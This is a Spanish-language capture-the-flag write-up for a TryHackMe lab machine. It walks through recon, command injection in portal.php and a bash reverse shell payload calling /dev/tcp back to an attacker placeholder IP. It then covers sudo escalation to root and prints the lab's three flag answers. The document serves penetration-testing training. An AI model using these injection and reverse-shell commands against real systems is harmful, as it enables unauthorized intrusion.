# **📜 Reporte Completo - Máquina "Rick y Morty" (TryHackMe)**

## **🔍 1. Reconocimiento Inicial**
### **🔎 Escaneo de Puertos (NMAP)**
```bash
nmap -sC -sV 10.10.X.X
```
**Resultados:**  
- **Puerto 22 (SSH)**: OpenSSH 8.2p1 (no accesible con creds iniciales).  
- **Puerto 80 (HTTP)**: Apache 2.4.41.  

---

### **🌐 Enumeración Web**
#### **Descubrimiento de Rutas (Gobuster)**
```bash
gobuster dir -u http://10.10.X.X -w /usr/share/wordlists/dirb/common.txt
```
**Hallazgos clave:**  
- `/robots.txt` → Contiene: `Wubbalubbadubdub` (**posible contraseña**).  
- `/portal.php` → **Potencial vector de ataque**.  

![[Pasted image 20250610211530.png]]

#### **Inspección Manual**
- **Código fuente de `index.html`**: Revela el usuario `R1ckRul3s`.  
- **Pista inicial**: Mensaje de Rick pidiendo ayuda para encontrar 3 ingredientes.  

---

## **⚡ 2. Explotación**
### **Inyección de Comandos en `portal.php`**
**Prueba inicial:**  
```bash
; whoami  # Devuelve "www-data"
```
**Reverse Shell (desde atacante):**  
1. Listener en Kali:  
   ```bash
   nc -lvnp 4444
   ```
2. Payload inyectado:  
   ```bash
   ; bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'
   ```

![[Pasted image 20250610211718.png]]

---

### **🔎 Búsqueda de Flags (Ingredientes)**
#### **Primer Ingrediente**
```bash
cat /var/www/html/Sup3rS3cretPickl3Ingred.txt
```
**Flag:** `mr. meeseek hair`  

#### **Segundo Ingrediente**
```bash
cat "/home/rick/second ingredients"  # Uso de comillas por espacios
```
**Flag:** `1 jerry tear`  

---

## **🔼 3. Escalada de Privilegios**
### **Verificación de Permisos SUDO**
```bash
sudo -l
```
**Resultado crítico:**  
```
(ALL) NOPASSWD: ALL  # ¡Ejecución como root sin contraseña!
```

**Captura:**  
![[Pasted image 20250610211816.png]]

### **Obtención de Root**
```bash
sudo su
```
**Confirmación:**  
```bash
whoami  # Debe devolver "root"
```

---

### **🏁 Tercer Ingrediente (Flag Final)**
```bash
cat /root/3rd.txt
```
**Flag:** `fleeb juice`  

**Captura:**  

---

## **📌 4. Lecciones Aprendidas**
### **💡 Técnicas Clave**
1. **Inyección de Comandos**:  
   - Uso de `;`, `|` o `` ` `` para ejecutar comandos en campos de entrada.  
2. **Tratamiento de Archivos con Espacios**:  
   - Usar `" "` o `\` para evitar errores.  
3. **Escalada con SUDO**:  
   - Siempre ejecutar `sudo -l` para ver permisos privilegiados.  

### **⚠️ Errores Comunes**
- No revisar `sudo -l` antes de técnicas complejas.  
- Olvidar escapado de espacios en nombres de archivos.  